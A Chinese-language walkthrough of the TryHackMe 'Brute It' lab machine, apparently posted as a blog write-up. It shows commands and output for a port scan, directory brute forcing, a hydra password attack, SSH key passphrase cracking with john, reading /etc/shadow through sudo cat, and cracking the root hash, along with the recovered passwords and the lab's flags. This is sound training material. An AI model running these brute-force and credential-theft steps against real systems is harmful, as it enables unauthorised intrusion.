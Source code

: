 # 服务探测
```
┌──(root💀kali)-[~/tryhackme]
└─#  nmap -sV -Pn 10.10.218.99     
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-08 03:18 EDT
Nmap scan report for 10.10.218.99
Host is up (0.34s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.58 seconds
```



# 目录爆破
```
┌──(root💀kali)-[~/dirsearch]
└─#  python3 dirsearch.py -e* -t 100 -w /usr/share/wordlists/Web-Content/directory-list-2.3-medium.txt -u http://10.10.218.99

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: * | HTTP method: get | Threads: 100 | Wordlist size: 220521

Error Log: /root/dirsearch/logs/errors-21-10-08_03-18-54.log

Target: http://10.10.218.99

[03:18:55] Starting: 
[03:18:57] 200 -   11KB - /
[03:19:03] 301 -  312B  - /admin  ->  http://10.10.218.99/admin/
[03:25:33] 403 -  277B  - /server-status   
```

/admin源代码有一行注释
>Hey john, if you do not remember, the username is admin

所以我们现在知道登录的账号名是:```admin```，ssh的用户名是：```john```

# 用hydra爆破登录密码

```
┌──(root💀kali)-[~/tryhackme/bruteit]
└─#  hydra -f -l admin -P /usr/share/wordlists/rockyou.txt 10.10.218.99 http-post-form "/admin/:user=admin&pass=^PASS^&submit=LOGIN:Username or password invalid" -I -v
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-08 03:36:32
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.218.99:80/admin/:user=admin&pass=^PASS^&submit=LOGIN:Username or password invalid
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http://10.10.218.99/admin/panel
[VERBOSE] Page redirected to http://10.10.218.99/admin/panel/
[80][http-post-form] host: 10.10.218.99   login: admin   password: xavier
[STATUS] attack finished for 10.10.218.99 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-08 03:37:31
```

现在我们得到了登录凭证```admin:xavier```

登录后拿到webflag
```THM{brut3_f0rce_is_e4sy}```


把登录页面的rsa复制下来，在本地保存成文件id_rsa

# 用ssh2john把rsa改成john能识别的哈希
```
┌──(root💀kali)-[~/tryhackme/bruteit]
└─#  locate ssh2john.py                
/usr/share/john/ssh2john.py
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/tryhackme/bruteit]
└─#  /usr/share/john/ssh2john.py id_rsa >rsacrack
```

# john开始破解
```
┌──(root💀kali)-[~/tryhackme/bruteit]
└─#  john --wordlist=/usr/share/wordlists/rockyou.txt rsacrack
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (id_rsa)
1g 0:00:00:04 61.87% (ETA: 03:49:13) 0.2493g/s 2222Kp/s 2222Kc/s 2222KC/s crj316..crizzy19
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:07 DONE (2021-10-08 03:49) 0.1336g/s 1917Kp/s 1917Kc/s 1917KC/sa6_123..*7¡Vamos!
Session completed
```

得到rsa密码：```rockinroll```


# 登录ssh拿到user.txt
```
┌──(root💀kali)-[~/tryhackme/bruteit]
└─#  chmod 600 id_rsa                                                                                                                                                                                                                  130 ⨯
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/tryhackme/bruteit]
└─#  ssh -i id_rsa john@10.10.218.99
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Oct  8 07:51:11 UTC 2021

  System load:  0.0                Processes:           104
  Usage of /:   25.8% of 19.56GB   Users logged in:     0
  Memory usage: 24%                IP address for eth0: 10.10.218.99
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$ ls
user.txt
john@bruteit:~$ cat user.txt
THM{a_password_is_not_a_barrier}

```

sudo -l查看本账号root权限
```
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

直接查看shadow文件
```
john@bruteit:~$ sudo cat /etc/shadow
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
thm:$6$hAlc6HXuBJHNjKzc$NPo/0/iuwh3.86PgaO97jTJJ/hmb0nPj8S/V6lZDsjUeszxFVZvuHsfcirm4zZ11IUqcoB9IEWYiCV.wcuzIZ.:18489:0:99999:7:::
sshd:*:18489:0:99999:7:::
john:$6$iODd0YaH$BA2G28eil/ZUZAV5uNaiNPE0Pa6XHWUFp7uNTp2mooxwa4UzhfC0kjpzPimy1slPNm9r/9soRw8KqrSgfDPfI0:18490:0:99999:7:::
```

把```root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.```复制到本地，保存成一个hash.txt文件

再次用john破解
```
┌──(root💀kali)-[~/tryhackme/bruteit]
└─#  john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
football         (root)
1g 0:00:00:00 DONE (2021-10-08 03:58) 5.555g/s 1422p/s 1422c/s 1422C/s 123456..freedom
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

拿到root凭证：```root:football```

# 登录root账户，拿到root flag
```
john@bruteit:~$ su root
Password: 
root@bruteit:/home/john#  cat /root/root.txt 
THM{pr1v1l3g3_3sc4l4t10n}
root@bruteit:/home/john#  
```

# 总结
很简单的机器，主要考察各种暴力破解工具的使用。